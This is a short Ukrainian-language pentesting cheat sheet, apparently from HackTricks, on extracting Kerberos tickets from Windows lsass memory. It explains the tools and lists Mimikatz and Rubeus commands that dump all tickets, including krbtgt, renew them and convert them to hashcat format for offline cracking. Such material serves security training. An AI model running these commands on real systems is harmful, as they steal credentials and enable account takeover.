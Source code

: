# Harvesting tickets from Windows

{{#include ../../banners/hacktricks-training.md}}

Квитки в Windows управляються та зберігаються процесом **lsass** (Служба підсистеми локальної безпеки), який відповідає за обробку політик безпеки. Щоб витягти ці квитки, необхідно взаємодіяти з процесом lsass. Користувач без адміністративних прав може отримати доступ лише до своїх власних квитків, тоді як адміністратор має привілей витягувати всі квитки в системі. Для таких операцій широко використовуються інструменти **Mimikatz** та **Rubeus**, кожен з яких пропонує різні команди та функціональність.

### Mimikatz

Mimikatz - це універсальний інструмент, який може взаємодіяти з безпекою Windows. Його використовують не лише для витягування квитків, але й для різних інших операцій, пов'язаних із безпекою.
```bash
# Extracting tickets using Mimikatz
sekurlsa::tickets /export
```
### Rubeus

Rubeus - це інструмент, спеціально розроблений для взаємодії та маніпуляцій з Kerberos. Він використовується для витягування та обробки квитків, а також для інших діяльностей, пов'язаних з Kerberos.
```bash
# Dumping all tickets using Rubeus
.\Rubeus dump
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))

# Listing all tickets
.\Rubeus.exe triage

# Dumping a specific ticket by LUID
.\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))

# Renewing a ticket
.\Rubeus.exe renew /ticket:<BASE64_TICKET>

# Converting a ticket to hashcat format for offline cracking
.\Rubeus.exe hash /ticket:<BASE64_TICKET>
```
При використанні цих команд, переконайтеся, що ви замінили заповнювачі, такі як `<BASE64_TICKET>` та `<luid>`, на фактичний квиток у кодуванні Base64 та ідентифікатор входу відповідно. Ці інструменти надають розширену функціональність для управління квитками та взаємодії з механізмами безпеки Windows.

## References

- [https://www.tarlogic.com/en/blog/how-to-attack-kerberos/](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)

{{#include ../../banners/hacktricks-training.md}}
